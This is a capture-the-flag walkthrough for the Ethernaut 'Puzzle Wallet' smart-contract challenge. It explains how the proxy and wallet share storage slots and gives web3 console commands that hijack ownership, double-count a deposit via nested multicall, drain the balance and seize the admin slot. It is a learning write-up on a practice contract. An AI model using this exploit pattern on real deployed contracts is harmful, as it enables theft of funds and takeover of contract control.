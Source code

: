 ## Puzzle Wallet

1. I solved this on second day. This is tricky but actually not that hard, you should watch D-squared video for this challenge, if you already understand how proxy storage works and calls...

2. The things to keep in mind is the PuzzelProxy and PuzzelWallet share the same storage, owner and pendingAdmin share same storage as well as admin and maxBalance share same storage.

3. To be pendingAdmin or owner it is fairly easy just call the proposeNewAdmin(), I have already explained how to do that using remix in past so calling them using contractABI is good to understand javascript and i can copy paste them.

```javascript
functionSig = {
  name: "proposeNewAdmin",
  type: "function",
  inputs: [{ type: "address", name: "_newAdmin" }],
};
```

`params = [player]`

`data = web3.eth.abi.encodeFunctionCall(functionSig, params)`

Calling proposeNewAdmin()
`await web3.eth.sendTransaction({from: player, to: instance, data})`

> Here, we call the proposeNewAdmin() and functionSig is used to create the 4byte signature (i.e. passed as data) and address is passed in params for better understanding of what is happening.

4. We add the player to whitelist and since are already owner.

`await contract.addToWhitelist(player)`

5. We get the 4byte signature of deposit by below line
   `depositData = await contract.methods["deposit()"].request().then(v=> v.data)`
6. We get the data to be passed for multicallData()

multicallData = await contract.methods["multicall(bytes[])"].request([depositData]).then(v => v.data)

7. We call the multicall() using below code, which is called twice because after depositCalled is reversed to true in if {} block then it call be called again.. i think is the code for another vulnerability which was not discussed in video?

`await contract.multicall([multicallData, multicallData], {value: toWei('0.001')})`

`await getBalance(instance)`

8. We call execute() that lets us take the maxBalance out `await contract.execute(player, toWei('0.002'), 0x0)`

9. The final part in setting the admin which is also maxBalance state variable `await contract.setMaxBalance(player)`

10. success

> more refs added,`https://www-kiendt-me.translate.goog/2022/03/01/the-ethernaut-24/?_x_tr_sl=vi&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=sc` - `https://medium.com/@appsbylamby/ethernaut-24-puzzle-wallet-walkthrough-mastering-the-proxy-pattern-cc830dc364ce`
